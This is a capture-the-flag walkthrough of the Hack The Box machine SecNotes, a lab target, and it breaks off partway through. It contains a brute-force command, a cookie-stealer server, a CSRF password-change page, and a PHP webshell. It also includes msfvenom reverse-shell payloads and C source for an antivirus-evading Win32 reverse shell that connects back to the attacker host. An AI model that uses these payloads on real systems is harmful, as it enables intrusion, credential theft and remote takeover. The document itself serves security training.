# [SecNotes](https://app.hackthebox.eu/machines/151)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.97 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.97 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.97
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.97
```

The TCP quick scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.97/ -C all --maxtime=120s --output=nikto.txt
```



Then browse to the site manually:

```bash
firefox http://10.10.10.97/
```



This looks like a custom login portal. Start the following directory scanner looking for PHP pages since looking at the HTML source shows references to PHP pages:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.txt -x php \
  -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.97/ &
```

While that runs, try some basic logins:

```
admin/admin
admin/password
root/password
administrator/password
```

None of those work but an interesting error appears:

```
No account found with that username.
```

That error message helps with figuring out how to access the page. In the meantime, try creating an account clicking on the `Sign up now` link:



After logging in, the following is shown:



It looks like `tyler` is another username to know. Set up a bruteforce login attempt in the background. Here is the important HTML from `login.php`:

```html
<form action="/login.php" method="post">
    <div class="form-group ">
        <label>Username</label>
        <input type="text" name="username"class="form-control" value="">
        <span class="help-block"></span>
    </div>    
    <div class="form-group ">
        <label>Password</label>
        <input type="password" name="password" class="form-control">
        <span class="help-block"></span>
    </div>
    <div class="form-group">
        <input type="submit" class="btn btn-primary" value="Login">
    </div>
    <p>Don't have an account? <a href="register.php">Sign up now</a>.</p>
</form>
```

This becomes the following brute-force attempt:

```bash
# copy base wordlist
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
# remove empty passwords (causes different error in website => false positive)
awk 'NF' rockyou.txt > rockyou_no_whitespace.txt
hydra 10.10.10.97 http-form-post "/login.php:username=^USER^&password=^PASS^:The password you entered was not valid" -l tyler -P rockyou_no_whitespace.txt -vV -f
```

While that runs, play around with the web interface under the newly created account... After creating a new note and looking at the HTML source, there is an interesting link for the delete button for a given note:



It seems like there is an `id` parameter here for an SQL injection? Open BurpSuite and catch the HTTP GET request in the Proxy and send it to the Repeater:



Messing with the `id` and `action` parameters by adding `'` or `"` to trigger errors does not work for error-based blind SQL injection... Trying `WAITFOR DELAY '0:0:5'; --` for time-based blind SQL injection does not work (assuming MSSQL backend)... This does not look like the way... Moving on for now. 

The `Contact Us` link brings up a form that sends stuff to `tyler@secnotes.htb`. Try XSS to steal an admin cookie token? Save the following Python as `cookie_stealer.py`:

```Python
import base64
import http.server
import urllib.parse
import socketserver

class MyHandler(http.server.SimpleHTTPRequestHandler):

  def do_GET(self):
    URL = urllib.parse.urlparse(self.path)
    for k,v_b64 in urllib.parse.parse_qs(URL.query).items():
      try:
        v = base64.b64decode(v_b64[0]).decode().strip()
        print(f'{self.client_address[0]} DECODED COOKIE: {v}')
      except:
        v = v_b64[0].strip()
        print(f'{self.client_address[0]} RAW COOKIE: {v}')
    super().do_GET()

with socketserver.TCPServer(("0.0.0.0", 80), MyHandler) as httpd:
  httpd.serve_forever()
```

Then run it as follows:

```bash
sudo python3 cookie_stealer.py
```

Then submit the following for a message to `tyler@secnotes.htb`:

```html

```

But this does not return any results... Try something more basic? Just send a message with a URL and see if it is visited:

```
http://10.10.14.25/test
```

And this returns a hit!



After playing around with the website, it may be possible to have the user visit a page hosted on Kali that will submit an HTTP POST request to `/change_pass.php` in order to change the password to something known. The HTTP POST request for `/change_pass.php` looks like the following in BurpSuite after submitting the form:



Now create the HTTP POST request that will be submitted when the target visits the page on Kali:

- https://www.w3schools.com/js/js_ajax_http_send.asp
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest
- https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/withCredentials
- https://xhr.spec.whatwg.org/#the-withcredentials-attribute

```html
<html>
  <head>
    <title>BUBBA</title>
  </head>
  <body>
    <p>BUBBA</p>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open("POST", "http://10.10.10.97/change_pass.php", false);
      xhr.withCredentials = true;
      xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      xhr.send("password=bubbagump&confirm_password=bubbagump&submit=submit");
    </script>
  </body>
</html>
```

Then host the above HTML file as `bubba.html`:

```bash
sudo python3 -m http.server 80
```

And submit a new message with the following URL:

```
http://10.10.14.25/bubba.html
```



This generates a request but the password did not change? Try fingerprinting the user browser:

```html
<!-- save at /var/www/html/finger.html -->
<html>
  <head>
    <title>Blank Page</title>
  </head>
  <body>
    <p>logged</p>
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open("POST", "/finger.php");
      xhr.setRequestHeader("Content-Type", "application/txt");
      var txt = "";
      txt += "Browser CodeName: " + navigator.appCodeName + "\n";
      txt += "Browser Name: " + navigator.appName + "\n";
      txt += "Browser Version: " + navigator.appVersion + "\n";
      txt += "Cookies Enabled: " + navigator.cookieEnabled + "\n";
      txt += "Browser Language: " + navigator.language + "\n";
      txt += "Browser Online: " + navigator.onLine + "\n";
      txt += "Platform: " + navigator.platform + "\n";
      txt += "User-agent header: " + navigator.userAgent + "\n";
      txt += "Total plugin installed: " + navigator.plugins.length + "\n";
      txt += "Available plugins: \n";
      for (var i = 0; i < navigator.plugins.length; i++) {
        txt += "- ";
        if (navigator.plugins[i].name) {
          txt += (navigator.plugins[i].name + " | ");
        }
        if (navigator.plugins[i].filename) {
          txt += (navigator.plugins[i].filename + " | ");
        }
        if (navigator.plugins[i].description) {
          txt += (navigator.plugins[i].description + " | ");
        }
        if (navigator.plugins[i].version) {
          txt += (navigator.plugins[i].version + " | ");
        }
        txt += "\n";
      }
      xhr.send(txt);
    </script>
  </body>
</html>
```

Make PHP script:

```php
<?php
  # save this at /var/www/html/finger.php
  $data = "Client IP Address: " . $_SERVER['REMOTE_ADDR'] . "\n";
  $data .= file_get_contents('php://input');
  $data .= "---------------------------------\n\n";
  file_put_contents('/var/www/finger/finger.txt',
                    print_r($data, true),
                    FILE_APPEND | LOCK_EX);
?>
```

Enable fingerprint:

```bash
sudo mkdir /var/www/finger
sudo touch /var/www/finger/finger.txt
sudo chown -R www-data:www-data /var/www/finger/
sudo systemctl restart apache2
```

Then submit a request to `tyler` with the following URL:

```
http://10.10.14.25/finger.html
```

However, looking at `/var/www/finger/finger.txt` shows that the JavaScript did not execute:

```bash
watch -n 0.5 cat /var/www/finger/finger.txt
```

Maybe the user is not using a valid browser? It seems like only an HTTP get request can be made... Looking back at the HTTP POST for `change_pass.php`, maybe it can be made into an HTTP GET request? Testing out the following URL results in a valid password change!

```
http://10.10.10.97/change_pass.php?password=bubba123&confirm_password=bubba123&submit=submit
```

Send the above link to `tyler` through `http://10.10.10.97/contact.php` and then login with `tyler/bubba123`:



Looking at the notes, `new site` has the following:

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

This looks like an SMB password for `tyler` with `92g!mA8BGjOirkL%OG*&`. Try connecting:

```bash
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'ls;quit' # password 92g!mA8BGjOirkL%OG*&
```



This looks like a webserver directory for some other website? The full `nmap` scan shows another open port:



Browsing to `http://10.10.10.97:8808/iisstart.htm` shows the following:



Try uploading an ASP reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 \
         -f asp \
         -o bubba.asp
nc -nvlp 6969
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.asp;quit' # 92g!mA8BGjOirkL%OG*&
curl -s http://10.10.10.97:8808/bubba.asp
```

But this results in a `500 - Internal server error`. Try an ASPX payload:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 \
         -f aspx-exe \
         -o bubba.aspx
```

This just results in a `404 - File or directory not found`? Try a basic PHP webshell since that is running on TCP port 80:

```bash
echo '<?php echo shell_exec($_REQUEST["c"]); ?>' > bubba.php
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.php;quit' # 92g!mA8BGjOirkL%OG*&
curl -s --data-urlencode 'c=whoami' http://10.10.10.97:8808/bubba.php
```

And this results in a valid webshell:



However, after running a few commands for a bit, the webshell returns a `404 - File or directory not found` and is removed from the share? It looks like there is an annoying task that is deleting files here... Use the web shell to try and get a dedicated reverse shell:

```bash
msfvenom -p windows/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -a x86 --platform windows \
         -e x86/shikata_ga_nai \
         -f exe \
         -o bubba.exe
sudo impacket-smbserver -smb2support BUBBA .
nc -nvlp 6969
curl -s --data-urlencode 'c=cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe' http://10.10.10.97:8808/bubba.php
```

Hmmm this results in a valid download over SMB but no shell connection? Maybe this is Windows Defender blocking the shell for anti-virus... Try the following custom reverse shell:

```c
/* Win32 TCP reverse cmd.exe shell
 * References:
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-wsastartup
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock/ns-winsock-sockaddr_in
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-inet_addr
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-htons
 * https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsaconnect
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa
 * https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
 * https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366877(v=vs.85)
 */
#define WIN32_LEAN_AND_MEAN

#include <windows.h>
#include <winsock2.h>

#pragma comment(lib, "ws2_32.lib")

#define LHOST "10.10.14.25"
#define LPORT 6969

void main(void) {
  SOCKET s;
  WSADATA wsa;
  STARTUPINFO si;
  struct sockaddr_in sa;
  PROCESS_INFORMATION pi;

  WSAStartup(MAKEWORD(2,2), &wsa);
  s = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
  sa.sin_family = AF_INET;
  sa.sin_addr.s_addr = inet_addr(LHOST);
  sa.sin_port = htons(LPORT);
  WSAConnect(s, (struct sockaddr *)&sa, sizeof(sa), NULL, NULL, NULL, NULL);
  SecureZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  si.dwFlags = STARTF_USESTDHANDLES;
  si.hStdInput = (HANDLE)s;
  si.hStdOutput = (HANDLE)s;
  si.hStdError = (HANDLE)s;
  CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
}
```

Compile the shell:

```bash
i686-w64-mingw32-gcc bubba.c -o bubba.exe -s -lws2_32
```

Then re-run the download and execute steps:

```bash
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.php;quit' # 92g!mA8BGjOirkL%OG*&
curl -s --data-urlencode 'c=cmd.exe /c \\10.10.14.25\BUBBA\bubba.exe' http://10.10.10.97:8808/bubba.php
```

But still no shell? Maybe this is a SMB issue? Upload the shell and execute it directly:

```bash
smbclient -U tyler \\\\10.10.10.97\\new-site -c 'put bubba.php;put bubba.exe;quit' # 92g!mA8BGjOirkL%OG*&
curl -s --data-urlencode 'c=cmd.exe /c bubba.exe' http://10.10.10.97:8808/bubba.php
```

And this results in a dedicated reverse shell with `user.txt`:

- **NOTE:** After going back and manually uploading the `msfvenom` generated payload, it seems like there still is an AV blocking execution. So the AV bypass payload is still needed.



After getting access, it seems like the annoying task is at `c:\Users\tyler\cleanup\cleanup.ps1` with the following content:

```powershell
while($true) {
	Write-Host "Cleaning up new-site!"
	Get-ChildItem -Path "C:\inetpub\new-site" -Exclude iisstart.* | Select -ExpandProperty FullName | Remove-Item -Force

	Write-Host "Sleeping for 5 minutes..."
	Start-Sleep -s 300
}
```

Also, there is another task at `c:\Users\tyler\secnotes_contacts\check-messages.ps1` that was performing the client link clicking:

```powershell
$ip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession;

($ip + "|127.0.0.1|secnotes.htb").split("|") |
ForEach-Object{
	$cookie = New-Object System.Net.Cookie;
	$cookie.name = "PHPSESSID";
	$cookie.value = "cgg9uaoa794ibotbatm6h469v3";
	$cookie.domain = $_;
	$session.Cookies.Add($cookie);
}

while($true) {
	$found_url = 0

	# check for ip change
	$ip = ((ipconfig | findstr [0-9].\.)[0]).Split()[-1]
	if ($session.Cookies.GetCookies('http://' + $ip).length -lt 1) {
		Write-Host "New ip "$ip". Adding cookie"
		$cookie = New-Object System.Net.Cookie;
		$cookie.name = "PHPSESSID";
		$cookie.value = "cgg9uaoa794ibotbatm6h469v3";
		$cookie.domain = $ip;
		$session.Cookies.Add($cookie);
	}


	$file = Get-ChildItem "C:\Users\tyler\secnotes_contacts\" -Filter *.txt | Sort-Object CreationTime | Select-Object -First 1
	if ($file) {
		Write-Host "Opening file $($file)..."
		$content = Get-Content $file.FullName
		$content.split(' ') | ForEach-Object {
			if ($_ -match "^https?://((([\w-]+\.)+[\w-]+)|localhost)(:\d+)?([\w- ./?&%=]*)$") {
				$url = $matches[0];

				Write-Host "Visiting $($url)"
				try {
				(iwr $url -WebSession $session -TimeoutSec 1 -UseBasicParsing).content
				} catch {
					Write-Host "Page not found"
				}
				if ($url -match "change_pass.php") {
					Write-Host "Found change_pass.php... will sleep 30"
					$found_url = 1
				}
			}
		}

		Write-Host "Deleting file $($file)"
		Remove-Item $file.FullName
	}

	if ($found_url -eq 1) {
		Write-Host "Sleeping for 30 seconds"
		Start-Sleep -s 30
	} else {
		Write-Host "Sleeping for 5 seconds"
		Start-Sleep -s 5
	}
}
```

Since the website has a database, try looking for databse credentials and attempt password reuse? The MySQL database credentials are in `C:\inetpub\wwwroot\db.php`:

```php
<?php

if ($includes != 1) {
	die("ERROR: Should not access directly.");
}

/* Database credentials. Assuming you are running MySQL
server with default setting (user 'root' with no password) */
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'secnotes');
define('DB_PASSWORD', 'q8N#9Eos%JinE57tke72');
//define('DB_USERNAME', 'root');
//define('DB_PASSWORD', 'qwer1234QWER!@#$');
define('DB_NAME', 'secnotes');

/* Attempt to connect to MySQL database */
$link = mysqli_connect(DB_SERVER, DB_USERNAME, DB_PASSWORD, DB_NAME);

// Check connection
if($link === false){
    die("ERROR: Could not connect. " . mysqli_connect_error());
}
?>
```

Also, looking around the target, it seems like the client has the Ubuntu subsystem for Windows installed:

- https://www.microsoft.com/en-us/p/ubuntu/9nblggh4msv6
- https://docs.microsoft.com/en-us/windows/wsl/

This is because of the files `c:\Ubuntu.zip` and `c:\Users\tyler\Desktop\bash.lnk`. Maybe there are interesting files in the user's linux filesystem? First find these files by looking for common Linux file names that have good info:

- **NOTE:** Skipping ahead here to the right filename to look for. However, looking for things like `bashrc`, `/etc/passwd`, and  `/etc/shadow` will also work. From there, just look around the linux filesystem for interesting files...

```bash
dir c:\ /a /b /s | findstr bash_history
```



That file looks promising. It has the following content:

```
cd /mnt/c/
ls
cd Users/
cd /
cd ~
ls
pwd
